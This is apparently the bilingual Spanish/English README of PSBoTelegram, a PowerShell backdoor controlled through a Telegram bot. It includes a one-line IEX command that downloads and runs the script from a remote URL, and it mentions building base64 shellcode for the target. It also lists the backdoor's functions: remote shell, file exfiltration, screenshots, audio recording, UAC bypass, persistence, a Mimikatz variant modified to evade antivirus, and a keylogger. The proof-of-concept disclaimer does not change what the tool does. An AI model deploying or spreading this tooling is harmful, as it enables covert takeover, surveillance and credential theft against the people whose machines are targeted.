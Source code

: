 

# PsBoTelegram
Backdoor using Telegram and Powershell. Por favor, usad sólo vuestros equipos para las pruebas.  
No me hago responsable de un mal uso del software. Rercordad que esto sólo es una prueba de concepto.  

Podeis probar el script abriendo una consola de powershell y ejecutando este comando:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;

        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                            /____/

                                                     v0.8 by CyberVaca @ HackPlayers

PSBotTelegram es un script escrito en Powershell, que nos crea una backdoor que se conecta a un BOT de Telegram. El BOT se controlará por mensajes de Telegram. Al ejecutar el script nos va a pedir tres datos necesarios para crear el shellcode. 

# Instalación en Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    cd psbotelegram
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell ./PSBoTelegram.ps1

# Instalación en Windows

    Powershell.exe ./PSBotelegram.ps1
    
Los datos que nos pide son los siguientes:  

# Parametros
![Parametros](./images/parametros.png)  
 
**[+] Introduzca el Token del Bot de Telegram:** "Aquí deberemos poner el Token del bot que hayamos creado."  
**[+] Introduzca su Chat ID:** "Aquí deberemos poner nuestro ID de Telegram."  
**[+] Introduzca el delay para la conexión:** "En este campo seteamos el delay(retardo) entre en pc con el backdoor y nuestro chat de telegram"   

# Salidas de archivo:
![Salidas](./images/OutFiles.png)  

Una vez introducido estos datos, nos creará un shellcode en BASE64 en un tipo de archivo seleccionado para ejecutarlo en el equipo a auditar.  

# Funciones del backdoor.

[1]&nbsp;&nbsp;&nbsp;**/Help**&nbsp;&nbsp; (Nos muestra la ayuda)  
[2]&nbsp;&nbsp;&nbsp;**/Info**&nbsp;&nbsp; (Devuelve información sobre el equipo)   
[3]&nbsp;&nbsp;&nbsp;**/Shell**&nbsp;&nbsp; (/Shell + CmdLet a ejecutar )  
[4]&nbsp;&nbsp;&nbsp;**/Whoami**&nbsp;&nbsp; (Devuelve el usuario que ejecutó el codigo)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic**&nbsp;&nbsp; (Nos da IP publica, Pais y Ciudad del Target)  
[6]&nbsp;&nbsp;&nbsp;**/Kill**&nbsp;&nbsp; (Mata el backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport**&nbsp;&nbsp; (Importa el script de powershell pasandole una url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)**&nbsp;&nbsp; (Función de powercat https://github.com/besimorhino/powercat
)  
[9]&nbsp;&nbsp;&nbsp;**/Download**&nbsp;&nbsp; (Download mas ruta nos descarga el archivo)  
[10]&nbsp;&nbsp;**/Screenshot**&nbsp;&nbsp; (Realiza screenshot y nos lo envia)  
[11]&nbsp;&nbsp;**/Audio**&nbsp;&nbsp; (/Audio X, Grabaría X segundos de audio y nos lo envia)  
[12]&nbsp;&nbsp;**/BypassUAC**&nbsp;&nbsp; (Ejecuta el Bot con privilegios administrativos)  
[13]&nbsp;&nbsp;**/Persistence**&nbsp;&nbsp; (/Persistence ON/OFF)  
[14]&nbsp;&nbsp;**/MimiGatoz**&nbsp;&nbsp; (Ejecuta Mimikatz modificado para el bypass AV y nos envia los datos)  
[15]&nbsp;&nbsp;**/Keylogger-Selective**&nbsp;&nbsp; (Ejecuta un Keylogger selectivo, ejemplo /keylogger-Selective Facebook)  
[16]&nbsp;&nbsp;**/Mimikittenz**&nbsp;&nbsp; (Ejecuta Mimikittenz, comprobando si el equipo es vulnerable y si no lo es, lo hace vulnerable... )  


# PsBoTelegram English 
Backdoor using Telegram and Powershell. Please use only your test equipment.
I am not responsible for any misuse of the software. Make sure this is only a proof of concept. 

You can test the script by opening a powershell console and running this command:

**IEX (curl "https://raw.githubusercontent.com/Hackplayers/PSBoTelegram/master/PSBoTelegram.ps1" ).content**&nbsp;&nbsp;


        ____  _____ ____      ______     __
       / __ \/ ___// __ )____/_  __/__  / /__   ____ __________ _____ __
      / /_/ /\__ \/ __  / __ \/ / / _ \/ / _ \/ __  / ___/ __  / __  __ \
     / ____/___/ / /_/ / /_/ / / /  __/ /  __/ /_/ / /  / /_/ / / / / / /
    /_/    /____/_____/\____/_/  \___/_/\___/\__, /_/   \__,_/_/ /_/ /_/
                                            /____/

                                                     v0.8 by CyberVaca @ HackPlayers

PSBotTelegram is a script written in Powershell, which creates a backdoor that connects to a Telegram BOT. The BOT will be controlled by Telegram messages. When executing the script we will ask for three data needed to create the shellcode.

# Install in Linux

    git clone https://github.com/hackplayers/psbotelegram.git
    cd psbotelegram
    sudo apt-get update > /dev/null
    sudo apt-get install libunwind8 libicu55 
    wget https://github.com/PowerShell/PowerShell/releases/download/v6.0.0-alpha.13/powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    sudo dpkg -i powershell_6.0.0-alpha.13-1ubuntu1.16.04.1_amd64.deb
    powershell ./PSBoTelegram.ps1

# Install in Windows

    Powershell.exe ./PSBotelegram.ps1
    
The data that asks us are the following:

# Parametres
![Parametros](./images/parametros.png)  
 
**[+] Enter the Telegram Bot Token:** "Here we have to put the Token of the bot we have created."  
**[+] Enter your Chat ID:** "Here we have to put our Telegram ID."  
**[+] Enter the delay for the connection:** "In this field we set the delay between pc in the backdoor and our telegram chat"   

[1]&nbsp;&nbsp;&nbsp;**/Help** (Show us the help)  
[2]&nbsp;&nbsp;&nbsp;**/Info** (Returns information about the equipment)  
[3]&nbsp;&nbsp;&nbsp;**/Shell** (/ Shell + CmdLet to run)  
[4]&nbsp;&nbsp;&nbsp;**/Whoami** (Returns the user who ran the code)  
[5]&nbsp;&nbsp;&nbsp;**/Ippublic** (We give IP publica, Country and Target City)  
[6]&nbsp;&nbsp;&nbsp;**/Kill** (Kill the backdoor)  
[7]&nbsp;&nbsp;&nbsp;**/Scriptimport** (Import the powershell script by passing it a url)  
[8]&nbsp;&nbsp;&nbsp;**/Shell nc (netcat)** (Powercat function https://github.com/besimorhino/powercat)  
[9]&nbsp;&nbsp;&nbsp;**/Download** (Download more path to download the file)  
[10]&nbsp;&nbsp;&nbsp;**/Screenshot** (Make screenshot and send it to us)  
[11]&nbsp;&nbsp;&nbsp;**/Audio** (/Audio X, Record X seconds of audio and send it to us)  
[12]&nbsp;&nbsp;&nbsp;**/BypassUAC** (Runs the bot with administrative privileges)  
[13]&nbsp;&nbsp;&nbsp;**/Persistence** (/ Persistence ON / OFF)  
[14]&nbsp;&nbsp;&nbsp;**/MimiGatoz** (Run modified Mimikatz for AV bypass and send us the data)  
[15]&nbsp;&nbsp;&nbsp;**/Keylogger-Selective** (Executes a Selective Keylogger, example /keylogger-Selective Facebook)  
[16]&nbsp;&nbsp;&nbsp;**/Mimikittenz** (Mimikittenz runs, checking if the computer is vulnerable and if it is not, it makes it vulnerable ...)  



